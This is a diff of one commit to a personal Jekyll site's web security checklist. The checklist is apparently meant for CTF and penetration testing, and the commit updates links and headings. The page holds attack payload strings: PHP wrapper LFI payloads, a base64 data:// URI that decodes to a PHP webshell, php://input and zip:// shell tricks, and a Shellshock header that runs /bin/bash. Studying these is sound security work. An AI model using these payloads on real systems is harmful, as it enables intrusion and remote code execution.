

Before and after one commit to Q5Ca/Q5Ca.github.io, a Jekyll site: the page built from web-checklist.html, in a window 1280 px wide and 900 px high, scrolled down 863 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
update web checklist

```diff
--- a/web-checklist.html
+++ b/web-checklist.html
@@ -54,7 +54,7 @@
             </a>
         </div>
         <div class="collapse" id="php">
-            <input type="checkbox">directory travel, LFI <span class="text-danger">(php://filter/read=string.rot13/resource=, pHp://FilTer/convert.base64-encode/resource= )</span> <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers" target="_blank" rel="noopener noreferrer">ref0</a> <br>
+            <input type="checkbox">directory travel, LFI <span class="text-danger">(php://filter/read=string.rot13/resource=, pHp://FilTer/convert.base64-encode/resource= )</span> <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers" target="_blank" rel="noopener noreferrer">payload-all-the-thing</a> <br>
             <input type="checkbox">RFI<br>
             <input type="checkbox">Loose compare, type jungle <a href="https://www.php.net/manual/en/types.comparisons.php" target="_blank" rel="noopener noreferrer">PHP-type-comparison-tables</a> <br>
             <input type="checkbox">Redirecting without die()<br>
@@ -73,14 +73,17 @@
             </div>
             <div class="ml-3 mr-3">
                 <div class="d-flex justify-content-between">
-                    <span class="font-weight-bold">advanced inclusion <a href="https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/" target="_blank" rel="noopener noreferrer">ref0</a> </span>
+                    <span class="font-weight-bold">advanced inclusion  </span>
                     <a data-toggle="collapse" href="#advanced-inclusion" role="button" aria-expanded="false" aria-controls="advanced-inclusion">
                         More&#x25BC;
                     </a>
                 </div>
                 <div class="collapse" id="advanced-inclusion">
                     <input type="checkbox">RCE <span class="text-danger">data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=</span> <br>
-                    <input type="checkbox">RCE <span class="text-danger">expect://ls</span> <br>
+                    <input type="checkbox">RCE <span class="text-danger">php://input</span> <br>
+                    <input type="checkbox">RCE <span class="text-danger">/proc/self/fd/...(brute)</span> <br>
+                    <!-- <input type="checkbox">RCE <span class="text-danger">expect://ls</span> <br> -->
+                    <input type="checkbox"><a href="https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/" target="_blank" rel="noopener noreferrer">via-php-sessions</a> <br>
                     <input type="checkbox">upload zipped payload <span class="text-danger">zip://shell.jpg%23payload.php</span> <br>
                 </div>
             </div>
@@ -143,7 +147,7 @@
         <input type="checkbox">XPATH inject<br>
     </li>
     <li>
-        <h3>Frameworks</h3>
+        <h3>Applications/Frameworks(misused, CVEs..)</h3>
         <div class="ml-3 mr-3">
             <div class="d-flex justify-content-between">
                 <span class="font-weight-bold">spring framework</span>
@@ -166,9 +170,6 @@
                 <input type="checkbox">Actuator endpoints <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/404afd1d719b59c2a7600b83b5ed4583f8c822e9/Insecure%20Management%20Interface" target="_blank" rel="noopener noreferrer">swisskyrepo</a> <a href="https://www.veracode.com/blog/research/exploiting-spring-boot-actuators" target="_blank" rel="noopener noreferrer">ref0</a>
             </div>
         </div>
-    </li>
-    <li>
-        <h3>Applications</h3>
         <div class="ml-3 mr-3">
             <div class="d-flex justify-content-between">
                 <span class="font-weight-bold">jolokia</span>
@@ -177,7 +178,18 @@
                 </a>
             </div>
             <div class="collapse" id="jolokia">
-                <input type="checkbox">install new jar <a href="https://ctftime.org/task/7891" target="_blank" rel="noopener noreferrer">0ctf2019 - ghostpepper</a> <br>
+                <input type="checkbox">install new jar <a href="https://ctftime.org/task/7891" target="_blank" rel="noopener noreferrer">0ctf2019-ghostpepper</a> <br>
+            </div>
+        </div>
+        <div class="ml-3 mr-3">
+            <div class="d-flex justify-content-between">
+                <span class="font-weight-bold">apache mod-cgi</span>
+                <a data-toggle="collapse" href="#mod-cgi" role="button" aria-expanded="false" aria-controls="mod-cgi">
+                    More&#x25BC;
+                </a>
+            </div>
+            <div class="collapse" id="mod-cgi">
+                <input type="checkbox">Shellshock <span class="text-danger">User-Agent: () { :;}; /bin/bash -c '...'</span> <a href="https://medium.com/@wywyit/ritsec-fall-2018-ctf-week-6-45d414035c76" target="_blank" rel="noopener noreferrer">ritsecctf-web4</a> | <a href="https://www.cvedetails.com/cve/CVE-2014-6271/" target="_blank" rel="noopener noreferrer">cve-detail</a> <br>
             </div>
         </div>
     </li>
@@ -189,6 +201,6 @@
     <li>
         <h3>XSS via upload file</h3>
         <input type="checkbox">upload SVG  <a href="https://ctftime.org/task/7830" target="_blank" rel="noopener noreferrer">confident2019-web-50</a> <a href="https://blog.veryhax.ninja/blog/meepwn-lonelyboy/" target="_blank" rel="noopener noreferrer">meepwn-lonely-boy</a> <br>
-        <input type="checkbox">upload polyglot JPEG portswigger-Bypassing-CSP-using-p...<br>
+        <input type="checkbox">upload polyglot JPEG <a href="https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs" target="_blank" rel="noopener noreferrer">portswigger-Bypassing-CSP-using-p...</a> <br>
     </li>
 </ul>
```
Also changed, not shown: other parts of web-checklist.html (+2 -1 lines).
